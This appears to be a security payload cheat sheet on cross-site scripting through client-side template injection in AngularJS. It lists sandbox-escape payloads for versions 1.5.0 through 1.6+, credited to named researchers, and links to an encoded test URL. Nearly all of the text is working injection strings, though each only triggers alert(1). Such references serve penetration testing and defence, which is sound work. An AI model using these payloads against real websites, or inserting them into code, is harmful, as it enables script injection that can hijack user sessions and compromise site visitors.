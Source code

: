# XSS in Angular and AngularJS

## Client Side Template Injection

The following payloads are based on Client Side Template Injection.

### Stored/Reflected XSS - Simple alert in AngularJS

> AngularJS as of version 1.6 have removed the sandbox altogether

AngularJS 1.6+ by [Mario Heiderich](https://twitter.com/cure53berlin)

```javascript
{{constructor.constructor('alert(1)')()}}
```

AngularJS 1.6+ by [@brutelogic](https://twitter.com/brutelogic/status/1031534746084491265)

```javascript
{{[].pop.constructor&#40'alert\u00281\u0029'&#41&#40&#41}}
```

Example available at [https://brutelogic.com.br/xss.php](https://brutelogic.com.br/xss.php?a=<brute+ng-app>%7B%7B[].pop.constructor%26%2340%27alert%5Cu00281%5Cu0029%27%26%2341%26%2340%26%2341%7D%7D)

AngularJS 1.6.0 by [@LewisArdern](https://twitter.com/LewisArdern/status/1055887619618471938) & [@garethheyes](https://twitter.com/garethheyes/status/1055884215131213830)

```javascript
{{0[a='constructor'][a]('alert(1)')()}}
{{$eval.constructor('alert(1)')()}}
{{$on.constructor('alert(1)')()}}
```

AngularJS 1.5.9 - 1.5.11 by [Jan Horn](https://twitter.com/tehjh)

```javascript
{{
    c=''.sub.call;b=''.sub.bind;a=''.sub.apply;
    c.$apply=$apply;c.$eval=b;op=$root.$$phase;
    $root.$$phase=null;od=$root.$digest;$root.$digest=({}).toString;
    C=c.$apply(c);$root.$$phase=op;$root.$digest=od;
    B=C(b,c,b);$evalAsync("
    astNode=pop();astNode.type='UnaryExpression';
    astNode.operator='(window.X?void0:(window.X=true,alert(1)))+';
    astNode.argument={type:'Identifier',name:'foo'};
    ");
    m1=B($$asyncQueue.pop().expression,null,$root);
    m2=B(C,null,m1);[].push.apply=m2;a=''.sub;
    $eval('a(b.c)');[].push.apply=a;
}}
```

AngularJS 1.5.0 - 1.5.8

```javascript
{{x = {'y':''.constructor.prototype}; x['y'].charAt=[].join;$eval('x=alert(1)');}}
```
